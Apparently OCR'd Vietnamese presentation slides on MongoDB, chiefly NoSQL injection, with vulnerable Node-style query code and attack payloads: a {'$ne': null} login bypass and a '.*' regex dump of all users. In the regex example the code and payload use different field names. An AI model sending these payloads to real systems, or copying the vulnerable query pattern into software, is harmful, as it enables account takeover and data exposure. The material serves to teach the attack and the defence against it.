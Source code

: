 **4. JOIN Operations**
```
✗ Không có JOIN như SQL
✗ $lookup chậm hơn SQL JOIN
✗ Phải denormalize data
```

---

### PHẦN 4: NOSQL INJECTION (TRỌNG TÂM - 8 phút)

**Slide 5: NoSQL Injection là gì?**

```
Định nghĩa:
→ Kỹ thuật tấn công tương tự SQL Injection
→ Khai thác cách MongoDB xử lý queries
→ Inject MongoDB operators để bypass logic

Tương tự:
SQL Injection: ' OR '1'='1
NoSQL Injection: {"$ne": null}
```

**Slide 6: 3 Loại Tấn Công**

**Type 1: Authentication Bypass**
```javascript
// Vulnerable code
db.users.findOne({
  username: req.body.username,  // ← DANGER!
  password: req.body.password
})

// Attack payload
POST /login
{
  "username": {"$ne": null},
  "password": {"$ne": null}
}

// Query trở thành
db.users.findOne({
  username: {$ne: null},  // luôn TRUE
  password: {$ne: null}   // luôn TRUE
})
→ Trả về user đầu tiên (admin)!
```

**Type 2: Regex Injection**
```javascript
// Vulnerable code
db.users.find({
  username: {$regex: req.body.search}
})

// Attack payload
POST /search
{"searchTerm": ".*"}

→ Dump tất cả users!
```
